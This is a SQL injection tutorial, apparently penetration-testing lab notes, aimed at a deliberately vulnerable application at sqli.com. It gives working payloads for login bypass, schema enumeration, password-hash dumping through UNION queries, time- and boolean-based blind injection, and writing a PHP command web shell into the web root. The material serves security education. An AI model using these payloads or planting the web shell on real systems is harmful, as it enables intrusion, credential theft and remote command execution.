










# Additional Examples

All of the following examples will be based around a vulnerable application that is hosted at `http://sqli.com` (`/etc/hosts` file has been modified to point that domain at the correct IP)

## Error-Based SQLi Discovery

A visitor `http://sqli.com` is presented with a login page that coincidentally is vulnerable to SQLi.

As usual a good starting point is the apostrophe (`'`) test. This consists of placing a single apostrophe in the username field to see if it breaks the query:

<figure><figcaption><p>Error resulting from placing an apostrophe in the username field</p></figcaption></figure>

The error message indicates a couple of things:

1. The application is vulnerable to SQLi
2. The application is running a MYSQL database

## Simple Authentication Bypass

Consider the following PHP snippet that grants authentication:

```php
<?php
$uname = $_POST['uname'];
$passwd =$_POST['password'];

$sql_query = "SELECT * FROM users WHERE user_name= '$uname' AND password='$passwd'";
$result = mysqli_query($con, $sql_query);
?>
```

Since both the `uname` and `password` parameters come from user-supplied input, an attacker can control the `$sql_query` variable and craft a different SQL query.

By forcing the closing quote on the `uname` value and adding an `OR=1=1` statement followed by a _`--`_ comment separator and two forward slashes (_`//`_), one can prematurely terminate the SQL statement.

In this section's examples these comment separators are trailed with two double slashes. This provides visibility on the payload, and also adds some protection against any kind of white-space truncation the web application might employ.

Placing the following into the username field on the webpage:

```sql
offsec' OR 1=1 -- //
```

Would result in the SQL query being:

```sql
SELECT * FROM users WHERE user_name= 'offsec' OR 1=1 --
```

Which would be passed to the database by PHP. This query would result in circumnavigation of the authentication mechanism shown above.

<figure><figcaption><p>Authentication successfully bypassed</p></figcaption></figure>

## Enumeration

The same vulnerable field that allows authentication bypass can be used for database enumeration.

Acquiring the version of the database could be done with the following in the username field:

```sql
' or 1=1 in (select @@version) -- //
```

This would result in the output:

<figure><figcaption><p>Database version</p></figcaption></figure>

The following will result in a list of databases available:

```sql
' OR 1=1 IN (SELECT schema_name FROM information_schema.schemata) -- //
```

The following entered in the username field shows a list of tables in any database:

```sql
' OR 1=1 IN (SELECT table_name FROM information_schema.tables WHERE table_schema LIKE 'offsec') -- //
```

The following lists the columns in a table:

```sql
' OR 1=1 IN (SELECT column_name FROM information_schema.columns WHERE table_name = 'users') -- //
```

One needs to consider that the query must have the same size output as the space to list it. For example attempting to dump all info from the users table via the following:

```sql
' OR 1=1 in (SELECT * FROM users) -- //
```

Causes an error:

<figure><figcaption><p>Column count error</p></figcaption></figure>

In this instance once could first enumerate the users:

```sql
' OR 1=1 in (SELECT username FROM users) -- //
```

And then leak their password (hashed as it turns out):

```sql
' OR 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```

<figure><figcaption><p>Leaked password hash</p></figcaption></figure>

## UNION-based Payloads

Whenever one is dealing with in-band SQL injections and the result of the query is displayed along with the application-returned value, they should also test for **UNION-based SQL injections**.

The `UNION` keyword aids exploitation because it enables execution of an extra SELECT statement and provides the results in the same query, thus concatenating two queries into one statement.

For UNION SQLi attacks to work, **two conditions** must be satisfied:

1. The injected `UNION` query has to include the same number of columns as the original query.
2. The data types need to be compatible between each column.

To demonstrate this concept, consider a web application with the following preconfigured SQL query:


```php
$query = "SELECT * from customers WHERE name LIKE '".$_POST["search_input"]."%'";
```


The query fetches all the records from the `customers` table. It also includes the `LIKE` keyword to search any `name` values containing the user's input that are followed by zero or any number of characters, as specified by the percentage (`%`) operator.

This vulnerable page can be interacted with at `http://sqli.com/search.php`:

<figure><figcaption><p>Customer search portal</p></figcaption></figure>

### Data Leakage

After determining this page is vulnerable to SQLi, the first step is to determine the exact number of columns present in the database. This is done with the `ORDER BY` operator:

```sql
%' ORDER BY 1 -- //
```

<figure><figcaption><p>Full database dump</p></figcaption></figure>

The number is incremented in successive queries until the application returns an error. This will indicate how many columns there are. In this instance the application breaks at `ORDER BY 6`:

<figure><figcaption><p>Error returned when attempting to order by non-existent column</p></figcaption></figure>

This indicates that the database has 5 columns. With this in mind, first determine which columns are output on screen (and where):

```sql
%' UNION SELECT 1, 2, 3, 4, 5 -- //
```

<figure><figcaption><p>Column positioning</p></figcaption></figure>

The output shows that columns 2 through 5 are visible on screen. From here one could begin enumerating the database, keeping in mind column type (based on what is seen in column on-screen) and size relative to desired output:

```sql
%' UNION SELECT null, database(), @@version, user(), null -- //
```

<figure><figcaption><p>Database enumeration</p></figcaption></figure>

The bottom row shows that the database is `offsec`, the version is `8.0.30-0ubuntu0.22.04.1`, and the database is running as user `debian-sys-maint@localhost`.

This same input can be used to leak the names and columns of all tables in the database:


```sql
' UNION SELECT null, table_name, column_name, table_schema, null FROM information_schema.columns WHERE table_schema=database() -- //
```


<figure><figcaption><p>Tables and their columns in database</p></figcaption></figure>

From here any interesting tables can be enumerated:

```sql
' UNION SELECT null, username, password, description, null FROM users -- //
```

<figure><figcaption><p>Output of the users table query above</p></figcaption></figure>

Resulting in the hash of the all user passwords.

### Executable Implantation

This portion of the example will leverage the `INTO OUTFILE` operator in order to write the output of the query into a file.

As seen in error messages in earlier examples, the web application is running at `/var/www/html`. With that in mind, the output of this command will be written (in PHP) to a sub-directory, `/var/www/html/tmp/`:


```sql
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```


While the command itself throws an error:

<figure><figcaption><p>Error thrown when implanting executable</p></figcaption></figure>

Navigating to the URL `http://sqli.com/tmp/webshell.php?cmd=whoami` yields the following page indicating the web shell has been implanted and is working properly:


## Blind SQLi

The SQLi payloads above are all **in-band**, meaning attackers are able to retrieve the database content of their query inside the web application.

Alternatively, **blind** SQL injections describe scenarios in which database responses are never returned and behavior is inferred using either boolean- or time-based logic.

As an example, generic **boolean-based blind SQL injections** cause the application to return different and predictable values whenever the database query returns a `TRUE` or `FALSE` result, hence the "boolean" name. These values can be reviewed within the application context.

**Time-based blind SQL injections** infer the query results by instructing the database to wait for a specified amount of time. Based on the response time, the attacker is able to conclude if the statement is TRUE or FALSE.

The vulnerable application for this example can be found at `http://sqli.com/blindsqli.php`:

This is an authenticated attack using the credentials `offsec:lab`. (or `admin:admin` if the hash discovered in earlier examples has been cracked). Once logged in the page looks like this:

<figure><figcaption><p>Blind SQLi page</p></figcaption></figure>

In this instance, the URL itself (specifically the `?user` parameter) is vulnerable to blind SQLi.

### Boolean-Based SQLi

To test for boolean-based SQLi, one could attempt appending the following to the URL:

```
http://sqli.com/blindsqli.php?user=admin' AND 1=1 -- //
```

Since `1=1` will always be `TRUE`, the application will return the values only if the user is present in the database.

<figure><figcaption><p>Valid user with boolean payload</p></figcaption></figure>

<figure><figcaption><p>Non-existent user (username: "test") with boolean payload</p></figcaption></figure>

Using this syntax, one could enumerate the entire database for other usernames or even extend the SQL query to verify data in other tables.

### Time-Based SQLi

The same result can be achieved using a time-based payload:

```
http://sqli.com/blindsqli.php?user=admin' AND IF (1=1, sleep(3),'false') -- //
```

In this instance, the attacker appended an `IF` condition that will always be true inside the statement itself, but will return false if the user is non-existent.

This time the results are not visual in the application. Instead it is about whether the application hangs (as the `sleep(3)` command executes). If the URL above is used with a valid user (`admin`), the application will hang for about 3 seconds upon navigating to the page. However if the user is invalid (`test`), the page will load immediately.

This timing difference can also be utilized to enumerate data present in the database (through trial and error). Because of the tediousness, this process is often not done manually but rather automated through tools (e.g. sqlmap).
